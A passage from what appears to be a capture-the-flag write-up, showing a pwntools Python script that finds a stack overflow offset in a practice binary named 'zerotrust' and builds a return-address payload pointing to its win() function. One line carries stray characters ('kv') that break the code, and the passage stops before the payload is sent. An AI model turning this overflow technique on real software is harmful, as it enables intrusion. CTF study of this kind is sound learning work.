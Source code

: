 #### Reaching the `win()` function
{{< highlight py solve.py >}}
from pwn import *

### Finding our offset ###
io = process('./zerotrust') # You must use the local process

# Sending a arbitrary cyclic pattern
io.sendline(cyclic(128))

# Waiting our program to crash
io.wait()

# Retrieving our core dump (https://docs.pwntools.com/en/stable/elf/corefile.html)
core = io.corefile

# Observing the stack
stack = core.rsp # rsp: stack pointer

# Finding where our cyclic pattern leaked onto the stack
pattern = core.read(stack, 4)
offset = cyclic_find(pattern)kv

### Now that we have our offset, let's exploit the binary ###
# Start up a new process
io = process('./zerotrust') # You could replace this with the remote process

# Skip the banner text
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()
io.recvline()

# Get our win() function
win = io.recvline().decode().split("win(): ")[1]

# Craft our payload
payload = b'A' * offset
payload += p64(int(win, 16))

